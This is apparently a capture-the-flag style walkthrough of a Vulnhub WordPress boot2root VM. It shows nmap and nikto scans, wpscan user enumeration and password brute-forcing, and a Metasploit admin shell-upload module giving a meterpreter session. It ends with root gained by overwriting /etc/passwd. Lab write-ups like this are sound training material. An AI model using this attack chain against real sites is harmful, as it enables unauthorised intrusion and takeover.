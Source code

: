 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, wpscan, metasploit  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root 
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page. Metasploit can be used to generate a plugin which will automationally upload a payload and give us shell. Start metasploit and set options that are necessary.

```
msf6 > search wp admin shell
msf6 > use 3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.44.130
RHOST => 192.168.44.130
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/4810e633-4fa2-4ee1-9e7c-5bf4d8e5b4ed)

The exploit should executed successfully and open a meterpreter session. Running a getuid command from this session (or id from a shell) shows we currently have access as the user: www-data. Therefore, some additional work is required to obtain root access.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/c3e57682-80ab-42a8-b502-329d6acd1b83)

### Privilege escalation
To check for any potential misconfigurations that could be lead to privilege escalatio, I use **unix-privesc-check** to scan. First upload **unix-privesc-check** to remote machice.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/18b15cf9-35af-4934-bfb9-06f030b56c0e)

Set excure permision for unin-privesc_check and run script.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/06bc75c5-77c1-434d-9665-7244afa11e65)

From the result, we can edit file /etc/passwd. Download /etc/passwd to local macline.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/12f6648b-7899-465a-83f7-2c484ca9c4ee)

Then, from a local terminal, we can use openssl to generate a new hashed password:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/efd82140-dbb5-4e0d-b797-a72d57a633c5)

Finally, we can edit the passwd file using vim and replace the x value for the root user with the hashed password from the above command:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/16144723-c017-4abd-9943-7e2f58409fcd)

The modified passwd file can then be uploaded to the target via the meterpreter session:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/aa86b3a8-0a87-4e76-ac58-dccea620215e)

Using the the shell command in meterpreter this can then be tranformed into an interactive bash shell via Python:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/5d530681-ea87-4d61-b955-d9f61e7f4b97)

Finally, we can su to the root user using the new password generated above:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/40f1c099-6930-4d7d-96c8-d7214c5d5de2)

Checking information of current user:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/8802fb73-fc59-4fff-b6bb-c78afa10db90)

So we get root of this machine.

